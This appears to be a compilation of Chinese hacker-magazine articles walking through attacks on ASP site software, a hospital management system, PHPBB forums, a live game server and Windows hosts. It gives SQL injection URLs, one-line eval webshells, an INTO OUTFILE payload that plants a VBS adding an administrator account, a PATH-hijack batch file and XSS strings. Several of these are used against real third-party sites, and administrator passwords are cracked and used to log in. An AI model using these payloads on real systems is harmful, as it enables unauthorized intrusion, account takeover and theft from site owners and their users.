今天朋友叫我帮他组建一个公司的网站，这个忙那是一定要帮，网上现成的 web 程序很多，看到一款名字听起来很不错的程序，叫“漂亮的企业网站 V5.0 增强版”，里面的说明文件是这样描述的：

- ◎ 基本功能：
1. 公司新闻系统；2. 产品发布系统；3. 公司简介、联系我们；
4. 留言系统；5. 网站后台具有强大的编辑功能。

看上去貌似符合朋友的要求，朋友说有这些功能就足够了，接下来当然是测试程序的安全性。把程序搬到我的空间以后，开始测试，打开站点后台，看上去很简洁，但是我是发现后台的“企业新闻管理”不能使用，也就是最重要的发表文章的地方不能使用，如图 1。


图 1 不能发表文章

上面写的是需要交费 100 元才可以使用，虽然是帮朋友的忙，但也不至于高尚到帮朋友去付这 100 块钱，我可以穷人呀，呵呵，开个玩笑。在上面的介绍中，得到了演示程序后台的视频录象，下载了视频，在视频里我得到了演示网站的地址，在 IE 中输入这个地址，谢天谢地网站还开着。我们现在有两个目的，一个是检测程序的安全性，另外一个就是从演示站点上拿到完整的 web 程序源码，至少现在我的手上有些程序大部分的代码，下面开始具体分析。

## 漏洞分析：

### 一：news_view.asp 注入漏洞

当我打开这个文件的时候，发现如下代码：

```asp
<%
strsql="select * from news_info where id="&request("id")
set rs = Server.CreateObject("ADODB.Recordset")
%>
```

大家可以发现，程序对 request 得到的变量 id 没有进行任何处理和判断就放入了数据库中执行，注入漏洞产生，具体的利用方法我在后面说。

### 二：product_view.asp 注入漏洞

在我读到这个文件时，发现了同样的问题，大家来看代码：

```asp
<%
if request("id")<>"" then    // 判断取得的变量是否为空
id = request("id")       // 如果不为空执行这里
else           // 如果为空就执行下面的代码
Response.Write("<script>")
Response.Write("alert('没有选定商品信息!')")
Response.Write("history.back();")
Response.Write("</script>")
end if

strsql="select * from pro_list where id="&id
set rs = Server.CreateObject("ADODB.Recordset")
rs.Open strsql, conn, 1, 1

if rs.recordcount=0 then
Response.Write("<script>")
Response.Write("alert('没有选定商品信息!')")
Response.Write("history.back();")
Response.Write("</script>")
end if
%>
```

同样，程序只是对变量判断是否为空，没有进行多余的检测和判断，对我来说，这是无关紧要的。知道了漏洞，就把演示站点扔给啊D去跑（需要在admin表中手动添加user_id和user_pwd），跑了一会，发现当啊D读到用户的密码时就会产生错误，不知道是我的机器的原因，还是其他别的什么原因。（当我第二天用手动注入的时候成功了，所以我想告诉大家的是，工具不是万能的，如果大家遇到这种情况，不妨可以试试手动注入，或许就会成功）

### 三：gbook.asp——欺骗管理员挂马

在我测试的网站上发现这套程序有留言本功能，如图 2。


这里代码我就不给出了，我在gbook.asp中从头到尾没有发现对提交的内容进行过滤和检测的语句，在姓名等处填入：`<script>alert("cn_判官来了！")</script>`，然后提交，提示留言成功，留言是给管理员在后台看的，当我进入后台，点击“留言本管理”之后，弹出提示，如图 3。


证明我们跨站成功，你当然也可以在留言的地方插入恶意代码，比如挂马代码，如果管理员在服务器上浏览了的话，呵呵，那你就达到了事半功倍的效果。

在我测试的最后，才想起来还有一个利用的地方可以直接拿 shell。由于程序的数据库是“.asa”格式的，我们可以插入一句话木马，然后用一句话木马连接端进行提交，可以成功的拿到 shell。

其实利用这个漏洞，我们可以干很多事情的，我就不写了，大家可以自由发挥。

### 四：session 欺骗显神威

我的目的还没达到，旁注看看，发现这个虚拟主机上有很多的网站，如图 4。


随便看了几个站之后，看到有一个 7.0 的网站，先看看能不能下载数据库，没想到居然可以下载，下载回来以后当然就是上传数据库木马，然后进后台进行备份，成功的拿到了 shell，如图 5。


但是是我发现这个虚拟主机的目录权限设定的很不错，没有办法进行目录跳转，看了看也没什么利用的地方，那可以试一下 session 欺骗，先打开检测程序的 login.asp 看到如下代码：

```asp
<%
Session("exemple_status") = "login"
session("lev")=lev
session("u_id")=user
response.redirect "default.asp"
...
%>
```

我省略掉的地方就是进行账号和密码验证的语句，如果密码和账号正确，就执行下面的 session 语句。知道了 session 以后，在我的 webshell 里新建文本，输入代码：

```asp
<%
Session("exemple_status") = "login"
response.redirect "http://yanshi/data/default.asp"
%>
```

浏览了刚建立的页面的时候，就跳入了演示站点的后台，我发现，功能果然是齐全的，如图 6。


关于 session 欺骗我就不多说了，大家可以参照以前的文章。

### 五：Ewebeditor——忘不掉的伤

在读代码的时候，发现 data 文件夹下有一个可爱的 Ewebeditor 文件夹，打开演示站点的 ewebeditor 页面，www.****.com/data/ewebeditor/index_default.asp，那熟悉的界面果然在那里静静的躺着，如图 7。


经常入侵的朋友应该知道 Ewebeditor，这个是入侵的时候大家都比较喜欢利用的，利用方法在网上也有很多，我就简单的说一下。

Ewebeditor 的默认账号和密码是：admin,admin，登录失败，看来是管理员把默认的账号和密码改了。我们可以下载数据库得到账号和密码，地址是：/db/ewebeditor.mdb，我运气比较不错，登入了 ewebeditor 后台，依次进入：样式管理——新增样式，添加一个样式，在里面“允许上传的格式”加上“.asa”格式，第 2 天我用这个方法也拿到了 shell。

### 六：总结

- 1、首先需要做的，当然就是修改程序的默认数据库的地址。
- 2、对于注入漏洞的修补，网上也有很多方法，把“and”、“or”、“select”等关键字进行过滤，最简单的方法就是去网上下载一套功能比较完善的防注入程序，在存在注入的代码上面加入 `<!--#include file = "fangzhuru.asp"-->`，就可以防范注入。
- 3、修改 ewebeditor 的默认数据库地址，然后修改默认的管理员账号和密码。

至此，这个 web 程序的安全性就分析的差不多了，源代码也通过 webshell 拿到了，朋友的忙就算帮完了，心情豁然开朗。如果大家有问题，请来 nohack 论坛讨论。

> **编辑点评：** 很不错的一篇文章，尽管难度不大，但作者可以把几个漏洞汇总，并加上了一些自己的看法和平时的技巧总结，总体来说是很不错的。

# 安检红八哥医院管理系统

从本文你可以学到：

- 1、红八哥医院管理系统漏洞分析
2、漏洞利用及其 webshell 获取

自从 2006 寒假放假回家，为了在车上消磨长长的时间（我是新疆人，在湖北上学！）就买了一本《黑客手册》，没想到从此以后就被她迷住，到现在是每期一定得买！7 月编辑夸《安检 ASP 商城之王》的作者动机好，搞的我也手痒了，所以决定也来献丑，分析的程序是《红八哥医院管理系统》。

## 一、明显的注入漏洞

ReadNews.asp 中，代码如下：

```asp
<%
dim typename
NewsID=Request.QueryString("NewsID")
if newsid="" then
    Response.Write "未指定参数"
else
    dataconn.execute("update News Set Click=click+1 where NewsID=" & NewsID)
......
'省略部分代码
rs.Source="select * from News where depid="&session("userdepid")&" and newsid="&newsid
rs.Source="select * from News where newsid="&newsid
%>
```

我们可以从上边代码中看出 newsid 未经任何过滤，只是判断是否为空后直接参与数据库查询，注入漏洞产生了！我们就去测试一下，找到一个链接在后边加上一个单引号，出现错误，如图 1。


然后用经典测试法 and 1=1 和 and 1=2 进行操作，分别如图 2、图 3！


oh yes! 看来可以注入，下面就可以提交：

```text
http://127.0.0.1/moban/1/ReadNews.asp?NewsID=2 and (select count(*)form 表名)>0猜测表名；
http://127.0.0.1/moban/1/ReadNews.asp?NewsID=2 and (select count (字段名)form 表名)>0猜测字段；
http://127.0.0.1/moban/1/ReadNews.asp?NewsID=2 and (select top 1 len(字段名)form 表名)=5猜测字段长度；
http://127.0.0.1/moban/1/ReadNews.asp?NewsID=2 and (select asc(mid(字段名, 1, 1))form 表名)=97猜测字段 asc 码值。
```

我比较懒直接上工具：啊 D，在检测开始之前依次选择“软件设置”—“设置”—“表段”，在这里添加：userdata;在字段里添加 userpass，不然检测不出（注意平时多积累，后台添加也一样！）。开始检测，检测结果如图 4，检测到的密码拿到 xmd5.com 检测！


另：moban/1/index.asp、moban/1/guestbook.asp、index.asp 都存在注射漏洞。

## 二、后台拿 webshell

思路：这个程序的默认后台路径为：admin/login.asp，数据库为：data/meirong.asp，进入后台后没有数据库备份功能，只好考虑上传漏洞和插入一句话进入 asp 数据库来拿 webshell。

#### 1.上传

所有能上传的地方都是调用一个编辑器，如图 5。


### 5，用 WSockExpert 抓包，得到：

```http
POST /admin/upme2.asp HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/admin/upme2.htm
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=---------------------------7d726121b0a04
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: 127.0.0.1
Content-Length: 1140
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: BHTHXWDUTRCWPZDRKOQO=VOZZCYUEOBAWDSMYNIJMAICFMARFVFSZBZVBXIK; CPRUYZPGHZM LBLWK NUDV=YGYQJPYMHRYLBXUVZJRQG JXPVT JPFCY RDBHNANOA
```

再看 upme2.asp 的代码如下：

```asp
fileExt=lcase(file.FileExt)
Forumupload=split(UpFileType, "|")
for i=0 to ubound (Forumupload)
    if fileEXT=trim (Forumupload (i)) then
        EnableUpload=true
        exit for
    end if
next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
    EnableUpload=false
end if
```

按理说这样的过滤把马改为 cer 格式即可上传成功，如图 5，可是我怎么都传不上去，请高手赐教！

#### 2.写一句话木马到数据库

在添加文章处填上一句话，提交抓包，post 文件为：addnews2.asp，其中有段代码为：

```asp
function changechr (str)
    changechr=replace(replace(replace(replace (str, "<", "&lt;"), ">", "&gt;"), chr(13), "<br>"), " ", " ")
    changechr=replace (changechr, "'", "&quot;")
    changechr=replace (changechr, mid (" " " ", 2, 1), "&quot;")
end function
```

结果一句话被过滤成 `&lt;%eval request("#")%&gt;` 无法正常连接，如图 6！只有重新找，最后来到添加友情链接，如图 7。


从 saveuserreg.asp 文件中找到没有严格过滤的变量，代码如下：


```asp
webname=request.form("webname")
weburl=request.form("weburl")
content=request.form("content")
logo=request.form("logo")
webmaster=request.form("webmaster")
email=request.form("email")
linktype=request.form("linktype")
pass=request.form("pass")
depid=request.form("depid")

set rs=server.createobject ("adodb.recordset")
sql="select * from link where (id is null)"

rs.open sql, dataconn, 1, 3
rs.addnew
rs("linktype")=linktype
rs("webname")=webname
```

```asp
rs("content")=content
rs("weburl")=weburl
rs("logo")=logo
rs("webmaster")=webmaster
rs("email")=email
rs("pass")=pass
rs("depid")=depid
rs("dateandtime")=now()
rs.update
rs.close
%>
```

添加成功，一句话连接成功如图 8。

最后就是上传大马了，我只想只要看黑手的人都应该会了！


## 三、实际测试

在百度中搜索：你认为本产颜色如何？当然你还可以构建其他关键字搜索。随便找了一个！我就不用工具猜了，直接在网址后加上默认数据库地址 data/meirong.asp，显示完成后按 Ctrl+f，输入 admin，找到后边跟着一个看上去像 MD5 加密的位置，如图 9。

复制下来破解后进入后台，（老编常跟我说思路要活，这样直接访问数据库，可以看出管理员的安全意识，同时可以得到密码！）按上边的步骤成功拿到 webshell，如图 10。


## 后记

本来准备提权的，但是我们这个破局域网 2m 还要六个人共享，卡死了！就只好过两天去网吧看看了。最后衷心的祝愿黑手越办越好，出更多精彩的文章，更多的朋友买“黑手”——有了“黑手”，生活不再寂寞！


> **编辑点评：**
> 很高兴又迎来一位新作者，从开始看黑手到自己写文章，作者进步神速呀，再接再励，加油！


# PHPBB 最新漏洞大曝光

> **从本文你可以学到:**
> PHPBB 漏洞利用

这段时间由于 Discuz 论坛相继暴出高危漏洞，可见国内的论坛安全一直不好，这次给大家带来的是 PHPBB 论坛的最新漏洞，这个漏洞也是各位大牛玩了几个月才爆出来的。我等小菜也只能玩玩人家剩下的……，据悉此漏洞可以直接爆出管理员密码的 MD5 值，能不能跑出来就要看各位的 RP 怎么样了 '_'

首先简单介绍一下 PHPBB 论坛系统，其具有友好的用户界面，使用了当今网络上流行的 php 语言工作，可以搭配 MySQL、MSSQL、PostgreSQL 等数据库系统使用。适合于大多数的网站用来搭建论坛系统，使用也是非常广泛的。

首先我们来看一下 www.milw0rm.com 给出的漏洞公告：

```
phpbb <= 2.0.22 - Links MOD <= v1.2.2 Remote SQL Injection Exploit

Bug discovered by Don
Dork: allinurl:links.php?t=search
or: "Links MOD v1.2.2 by phpBB2.de"
SQL INJECTION: Exploit: links.php?t=search&search_keywords=asd&start=1,1%20UNION%20SELECT%201,username,user_password,4,5,6,7,8,9,10,11,12%20FROM%20phpbb_users%20WHERE%20user_id=2/*
```

...... 此处省略部分代码 ......

从公告上我们可以知道是 Links.php 存在严重的注射漏洞，我们可以自己构造语句来查询管理员的密码。PHPBB 版本是 2.0.22，我们来根据公告给出的方法测试一下这个漏洞的威力。

首先打开可爱的 google，搜索 **allinurl:links.php?t=search** 就能找到很多 PHPBB 的论坛，如图 1。

随便打开一个看看是不是 PHPBB 的论坛，如图 2。


然后在论坛的 URL 后面加上我们要查询的语句，查询语句在公告里已经给出来了，就是 **links.php?t=search&search_keywords=asd&start=1,1%20UNION%20SELECT%201,username,user_password,4,5,6,7,8,9,10,11,12%20FROM%20phpbb_users%20WHERE%20user_id=2/***

我们直接复制粘贴在论坛的 URL 后面就可以了，如图 3。也就是 **http://www.inv168.com/phpBB2/links.php?t=search&search_keywords=asd&start=1,1%20UNION%20SELECT%201,username,user_password,4,5,6,7,8,9,10,11,12%20FROM%20phpbb_users%20where%20user_id=2/***

**%20user_id=2/*** 这个地址，然后我们直接回车，查询出管理员密码的 MD5 值，如图 4。


这里我们很清楚的可以看到管理员的用户名为 beatles，密码是 c4c371099cbdfb2c794eec59afd731a8，MD5 加密过的。我们拿去 cmd5 跑一下，如图 5。


我们看到密码已经跑出来了，是 183454，拿去登录一下看看，如图 6。

我们已经成功登录，说明爆出来的密码是正确的，嘿嘿。但是我们有些朋友会觉得手工太麻烦，已经有人为我们写好了利用工具，来看一下，如图 7。


我们在 URL 里添入我们查到的 PHPBB 论坛，然后直接点暴，就可以在最下面暴出管理员的用户名跟密码，如图 8。

嘿嘿，跟我手工查询出来的密码是一样的。为了证明这个工具的好用，我就再找一个论坛来试下，如图 9。

我直接把 URL 添到工具里，然后直接点暴，就看到了用户名是 admin，密码是 604c032d197888336a06606067a9e2d9，如图 10。

然后直接在 cmd5 查出密码是 010630219，我们登录一下，已经成功的用 admin 登录论坛，如图 11。

由此可见这个工具还是蛮好用的，不像我们以前所知道的漏洞利用工具。不是需要抓包就是需要自己构造代码，呵呵，我用 google 一搜大概有 80% 的站都存在这个漏洞，各位可要慎用啊！知道方法就可以了，可不要搞破坏啊，如果有什么不明白的地方可以随时来 SST 找我，我是伤心的鱼。最后还要谢谢小志同学的帮忙，他的博客是 www.web67.cn，他很乐于助人为乐，大家有问题尽管去麻烦他。


> **编辑点评：**
在自己读代码找到漏洞的同时，多关注下国内外著名的漏洞公告，那里有的时候会暴出你很感兴趣的东西；这也是信息收集的功底，hacker 不可或缺的基本功。

# 西线无战事——我的一次艰辛的渗透过程

从本文你可以学到
php+mysql 的常规注入手法

> 讲个笑话给大家听，我在 QQ 上和 Marcos 聊天。我说：老马，我搬家了，搬到四环了，真偏僻。可怜只在北京呆过几个月并且极少出门的老马根本没有北京地理的概念，寻思了 N 久说：老大，你的手机是不是常常收到河北移动欢迎你的短信呀？哈哈，期望博君一下，做一笑。另外，前不久在我老婆的命理下，做了一首顺口溜的藏头诗：纸上谈兵终觉浅/鱼跃龙门千年功/晓镜应愁云巽改/花开需折莫空嗟，自我感觉写得还不错，期望借此诗与大家共勉。不知道我老婆名字的读者，可别到处乱讲呀；这期我精选的多篇文章有许多可取之处，真心地望大家别太失望。

又到周末了，一个人在家就是无聊啊，好在咱有台电脑能上网，于是到网上找找有什么好看的电影或者好玩的游戏。这一找啊，就让我找到了目标网站，第一眼看上去，她就是我想要入侵的那种类型，缘分啊！

## 一、惊现注入点

刚打开目标网站，就看到一个令人心动的 URL，马上在后面提交“and 1=1/*”和“and 1=2/*”，返回不同页面，看来我们有戏，接下来看看拖鞋王子如何征服这台服务器的劳心，大家鼓掌。

```
http://75.126.xxx.xxx/viewplayer.php?ID=144%20and%201=1/*
```

//返回正常页面

```
http://75.126.xxx.xxx/viewplayer.php?ID=144%20and%201=2/*
```

//返回错误页面

判断一下 mysql 的类型，提交 and (mid(version(), 1, 1)) > 3/*

```
http://75.126.xxx.xxx/viewplayer.php?ID=144%20and%20(mid(version(), 1, 1))%3E3/*
```

返回正常页面，由此可确定 mysql 是 3.x 以上版本，支持 UNION SELECT 查询，让我们确认一下这个页面查询的表中有多少个字段吧。先提交“order by 1/*”返回正常；确认其支持 order by 语句，利用二分法，得知其共有 15 个字段。

```
http://75.126.xxx.xxx/viewplayer.php?ID=144%20order%20by%2015/*
```

//判断出 15 个字段

接下来我们利用 UNION SELECT 语句查询一些系统信息吧。提交 http://75.126.xxx.xxx7/viewplaye.php?ID=144%20and%20201=2%20union%20select%20200,1,2,3,4,5,6,7,8,9,10,11,12,13,14/*，对方有 15 个列，我们就依次写 15 个数字，UNION SELECT 语句前面的结果集为假，后面的结果才能显示，如图 1 所示。

接下来，我们调用 user() 和 version() 确定一下 mysql 的用户和版本号。提交 http://75.126.xxx.xxx/viewplayer.php?ID=144%20and%20201=2%20union%20select%20200,user(),2,3,4,version(),6,7,8,9,10,11,12,13,14，结果如图 2 所示。

mysql 竟然是以 root 账号跑的，版本是 5.x for windows，太感动了，这个服务器的管理员还真是厚道啊。利用 load_file() 读取“c:/boot.ini”确定这是一个 Windows 2003，如图 3 所示，用 SuperScan 扫描一下目标站点的 80 端口，得知它的 WEB 服务器是 Apache（如图 4）。管理员这么厚道，Apache 服务很可能是以 system 服务运行的。如果我们能拿到一个 WebShell 就是 System 权限了，免去了提权的麻烦。不知道大家有没有注意到，上面我们读取 C:/boot.ini 的内容时，可以直接使用单引号，这表明 php.ini 中 magic_quotes_gpc = Off，单引号没有被转义。如果我们知道 WEB 物理路径，就可以直接写入一个 WebShell。


## 二、社工失败

接下来我就按照我自己装 apache、php 和 mysql 的习惯，猜了半天，也没有猜到他们的路径。然后我就开始咒骂管理员不厚道，不知道把 apache 和 php 装到什么地方去了。此处省略 3000 字，好奇的同学可以去看星爷在“九品芝麻官”的吵架艺术。我的骂街和他相比是有过之而无不及。管理员在首页上写下了这么一段话，如图 5 所示。


大意是他以每月 159 美圆租了一台服务器给大家做《救世传说》的服务器，要求大家捐赠 75 美圆，不然服务器就要被关掉了。看完之后，我一阵坏笑，这年头是不流行社会工程学吗？我就假装给你捐赠 100 美圆，然后我说正在学架设服务器，不会配置 Apache，请他把他的 httpd.conf 发来让我参考参考。我英文好的朋友给我写了一段很有诱惑力的话，然后发到管理员的 mail 中，我也关机睡觉了，等待明天来看结果。

早上起床的时候已经是下午了，下楼匆匆吃了早餐，马上冲回来看看邮件，管理员果然回复了。不过没有给我发他的 httpd.conf，因为事先没测试，邮件中出现了我的中文名字，导致我的国籍被泄露，郁闷，如图 6 所示。


## 三、艰难之旅

我又仔细地看了一遍网站，企图能暴出 WEB 物理路径，不过试了半天死活爆不出来，看来他的 php.ini 中 display_errors 选项是设为 Off 的。这次又没什么大的收获，不过我又找到一个注入点，只有 6 个字段，这时我灵光一闪又想到一个办法。既然他的 mysql 是以 root 账号跑的，我可以往任何位置写文件，只要不覆盖别的文件就行了。

先在本地写一个激活的 guest 账号，加入管理员组并修改口令的 vbs 脚本，代码如下所示：

```
on error resume next
set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.run "net user guest /add"
WshShell.run "net user guest /active:yes"
WshShell.run "net localgroup administrators guest /add"
WshShell.run "net user guest security@520"
```

C:\Documents and Settings\All Users\「开始」菜单\程序\启动目录下的可执行文件会在机器重启后自动运行，那我们把上面的语句写到启动目录下，等下次管理员重启登录后，就会执行我们上面的脚本，然后我们就有一个管理员账号了。我们先写到临时目录下验证一下，提交如下的 URL:

```
http://75.126.x.x.x/viewclan.php?ClanID=-1%20union%20select%20'on%20error%20resume%20next:', 'set%20WshShell%20=%20WScript.CreateObject(%22WScript.Shell%22):', 'WshShell.run%20%22net%20user%20guest%20/add%20%22:','WshShell.run%20%22net%20user%20guest%20/active:yes%22:','WshShell.run%20%22net%20localgroup%20administrators%20guest%20/add%22:','WshShell.run%20%22net%20user%20guest%20security@520%22: '%20INTO%20OUTFILE%20'c:/windows/temp/xDFEE5C.tmp'
```

然后再用

```
http://75.126.x.x.x/viewclan.php?ClanID=-1%20union%20select%201,2,load_file('c:/windows/temp/xDFEE5C.tmp'),4,5,6
```

读取出来验证一下是否变形，如图 7 所示。


将读取出来的信息保存为 vbs 在本地成功运行，看来我们的方法是可行的。英文版 Windows 操作系统的启动目录为: C:/Documents and Settings/All Users/Start Menu/Programs/Startup，所以我们提交以下的 URL 就可以将 vbs 脚本写到启动目录下：

```
http://75.126.xxx.xxx/viewclan.php?ClanID=-1%20union%20select%20'on%20error%20resume%20next:', 'set%20WshShell%20=%20WScript.CreateObject(%22WScript.Shell%22):', 'WshShell.run%20%22net%20user%20guest%20/add%20%22:','WshShell.run%20%22net%20user%20guest%20/active:yes%22:','WshShell.run%20%22net%20localgroup%20administrators%20guest%20/add%22:','WshShell.run%20%22net%20user%20guest%20security@520%22: '%20INTO%20OUTFILE%20'c:/windows/temp/xDFEE5C.tmp'
```

```
%20INTO%20OUTFILE%20'C:/Documents and Settings/All Users/Start Menu/Programs/Startup/sys.vbs'
```

接下来，我只要等管理员重启机器就可以了。我开始幻想用哪种方法远程控制这台服务器。

- 1) FTP 登录，上传一个 webShell 就是 system 权限
- 2) 利用 135 端口执行命令
- 3) 建立 ipc$ 连接
- 4) 3389 登录

但当我用 Superscan 扫描一次端口后才发现，只开放了 80 和 2002 端口，看来上面的办法是不能利用了。第一，管理员不知道何年何月才重启服务器呢，第二，我们即使有了管理员账号也没法远程登录，渗透再一次陷入僵局。请出 amap-5.2 for windows 来判断一下运行在 2002 端口上的是什么服务，如图 8 所示。

注：THC-Amap 是运行在 Linux/UNIX/Windows 平台上的新一代安全扫描软件，通过探测端口响应的应用程序指纹数据来识别应用程序和服务，远甚于通过缺省端口号来判断应用程序和服务的方法，其具有完美的 SSL 支持、完整的 RPC 探测等特点。

连 amap 也没有判断出来，只知道是与 http 协议差不多的，我们用 firefox 访问一下 2002 端口试试，原来是一款远程管理软件 logmein 开发的端口，管理员是通过这个软件来管理计算机的。logmein 号称是可以从任何地方控制您的 PC，马上下载一个在虚拟机上安装试用，果然功能很强大，可以在内网控制内网中的一台机器，而且不需要客户端，只用一个浏览器即可。貌似很安全，本地只有两个配置文件，里面并没有什么关键数据，c:/Program Files/logmein/logmein.log 中保存的是管理员上次登录的日志。Logmein 是以在官方网站注册过的邮箱账号和密码为登录凭证的，一般很难破解。我不但没有登录成功，还被记录了 IP，可怜啊，如图 9 所示。


## 四、柳暗花明

我的思路又放到了 apache+php+mysql 的组合上，在我机器中 mysql 的配置文件中发现了下面的两句，我猛然意识到管理员是不是默认安装的呢？

```
# On Windows you should keep this file in the installation directory
# of your server (e.g. C:\Program Files\MySQL\MySQL Server X.Y). To.
```

我自己一般把 mysql 安装在 c:\mysql\，我以为别人安装也是这样安装的，这种想法让我走了很多弯路，马上提交如下 URL，果然读取到了 my.ini 文件，如下所示: http://75.126.xxx.xxx/viewclan.php?ClanID=-1%20union%20select%201,2,load_file('C:\Program%20Files\MySQL\MySQL%20Server%205.0\my.ini'),4,5,6，马上确认目标网站 php 和 apache 的具体版本号，如图 10 所示。


站 php 和 apache 的具体版本号，如图 10 所示。

直奔 apache 和 php 官方下载到相应的 for windows 版本，在虚拟机上默认安装，得知 apache 和 php 的默认安装路径分别是：

- C:\Program Files\Apache Software Foundation\Apache2.2
- C:\Program Files\PHP\php.ini

提交如下 URL 果然能读到 apache 和 php 的配置文件，老外的管理员真是厚道啊。我搅尽脑汁也没猜到，真是以小人之心度君子之腹了，惭愧啊。

```
http://75.126.xxx.xxx/viewclan.php?ClanID=-1%20union%20select%201,2,load_file('C:/Program%20Files/Apache%20Software%20Foundation/Apache2.2/conf/httpd.conf'),4,5,6
```

//apache 物理路径

```
http://75.126.xxx.xxx/viewclan.php?ClanID=-1%20union%20select%201,2,load_file('C:\Program%20Files\PHP\php.ini'),4,5,6
```

//php 物理路径

那 Web 物理路径一定是 C:\Program Files\Apache Software Foundation\Apache2.2\htdocs 了，我不假思索地提交如下 URL 以写入一个 webshell。

```
http://75.126.xxx.xxx/viewclan.php?ClanID=-1%20union%20select%201,2,3,4,5,'<?php eval($_POST[cmd]);?>' into outfile 'C:\Program Files\Apache Software Foundation\Apache2.2\htdocs\phptest.php'
```

，用浏览器访问，提示找不到网页，看来老外也不是很实在啊，把默认 web 物理路径改了，如图 11 所示。


我们接着拿 WebShell，提交如下的 URL。

## 五、总结

本来是很简单的入侵，结果却花费了很多时间，主要原因是在一开始没有自己搭建一个类似的环境测试，猜不到 web 路径。大家觉得此次渗透还有什么不足的地方请不吝指教，我是 E.S.T 的拖鞋王子。

> > **编辑点评：**
> 常规的注入手法 + 系统扫描软件，成功的一次入侵。不过里边的社会工程学有点搞笑呀，从侧面说明拖鞋王子入侵的细致功夫。很多小菜注入就是注入，往往忽略了系统扫描这项工作。用几款国外强大的扫描软件，你会有意外收获的。

# 谈环境变量在 Hacking 中的利用

- 从本文中你可以学到
- 利用环境变量提权的方法

首先，我们先了解下什么叫环境变量。环境变量一般是指在操作系统中用来指定运行环境的一些参数，比如临时文件夹和系统文件夹位置等等。这点有点类似于 DOS 时期的默认路径，当你运行某些程序时，除了在当前文件夹中寻找外，还会到设置的默认路径中去查找。比如说环境变量中的“Path”就是一个变量，里面存储了一些常用命令所有存放的目录路径。

查看系统的环境变量，可以使用 SET 命令，下面是执行 SET 命令后反馈的信息：

```
ALLUSERSPROFILE=C:\Documents and Settings\All Users
APPDATA=C:\Documents and Settings\Administrator\Application Data
CLIENTNAME=Console
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=145F63CA0A6F46D
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
HOMEDRIVE=C:
HOMEPATH=\Documents and Settings\Administrator
LOGONSERVER=\145F63CA0A6F46D
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=D:\Progra~1\Borland\Delphi7\Bin;D:\Progra~1\Borland\Delphi7\Projects\Bpl;C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 6 Model 15 Stepping 6, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=0f06
ProgramFiles=C:\Program Files
PROMPT=$P$G
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\WINDOWS
TEMP=C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp
TMP=C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp
USERDOMAIN=145F63CA0A6F46D
USERNAME=Administrator
USERPROFILE=C:\Documents and Settings\Administrator
windir=C:\WINDOWS
```

我们知道，当把 NC 一类的常用小工具放在 SYSTEM32 时，不管当前路径在哪，都可以执行 NC 命令，Hacking 中也提供了不少方便。其实这就是 Path 变量所起的作用了！

如果将 Path 变量中的内容全部删除，那么原来的系统命令系统都将无法识别。也就是说，当我们在 CMD 中输入命令时，系统将以如下顺序查找相关程序，来达到直接调用程序或文件的目的。

- 1. 当前目录下的可执行文件！
- 2. 依次查找 Path 变量中所指定的目录！

OK，在大体认识了环境变量后，我们开始切入主题，谈谈如何利用环境变量为我们的 Hacking 提供便利。

我们知道 PERL 安装后会在变量 Path 内容的最前面加入 c:\perl\bin（依 perl 安装目录而定），而当管理员权限配置不当时，会疏忽此目录的权限配置（默认权限配置，各 WIN 操作系统均有写权限），也就给我们创造了提权的条件。

下面我举个利用的例子！

注：是否可利用，取决于 Path 变量的位置以及该目录是否可写，另：环境变量一定要在系统自带环境变量之前。

假设条件如下：

目标安装了 PERL，且目录为 c:\perl\bin，目录可写，系统环境变量中的 Path 变量内容如下：

```
PATH=c:\perl\bin;C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem
```

我们可以在该目录下创建如下文件：

```
Netstat.cmd or Netstat.bat // 常用系统命令亦可，请自己举一反三!THX
```

文件内容如下：

```
@net user netpatch nspcn.org /add>nul
Rem 命令一定要记得加 @ 头，结尾加 >nul
Rem @是为了隐藏命令本身
Rem >nul 是为了隐藏命令执行完后的结果反馈!
@%systemroot%\system32\netstat.exe %1 %2 %3 %4 %5 %6
Rem 学过批处理命令的同学应该知道，这后面的%1 %2 %3
```

等，是起参数的作用。

当管理员执行命令时，由于 Path 变量中 c:\perl\bin 位于系统环境变量的前面，所以当管理员执行 Netstat 命令时，系统会首先找当前目录下的可执行文件，默认也就是“C:\Documents and Settings\Administrator”（依登录用户而定）。当没找到 Netstat 程序时，就会接着依次寻找环境变量中的 Path 变量中定义的目录，第一个当然是 c:\perl\bin 目录啦。由于系统找的是可执行程序，SO……自然而然地找到了我们的 Netstat.bat，然后系统也就理所当然地执行了我们设置好的命令。由于我们构造得巧妙，未露丝毫马脚，从而成功暗地提权，此乃三十六计中的暗渡陈仓也……

提权的小技巧讲完了……聪明的你或许会想到，如果作为 BACKDOOR 呢？呵呵……为啥不可呢，有 Idea 就得试，没测试哪来的正果呢？

**编辑点评：** 很巧妙的一个提权方法呀，我怎么没有想到。不过环境变量还有其它的作用，像 echo %username% 可以得知当前用户的登录名，接着 copy muma.exe \ip\admin$ 下可以直接启动你的 muma.exe 了。

# 利用 163 跨站漏洞 + 伪造邮件盗取指定邮箱

> > 从本文中你可学到
> 跨站的一种有效利用方法

## 一、163 跨站漏洞利用

网易 163 的跨站漏洞出现在 https://reg.163.com/logins.jsp 页面，其对用户提交信息过滤不严致使我们可以任意执行跨站代码，在用户名内输入 `<script>alert('跨站漏洞!')</script>`，如图 1 所示。

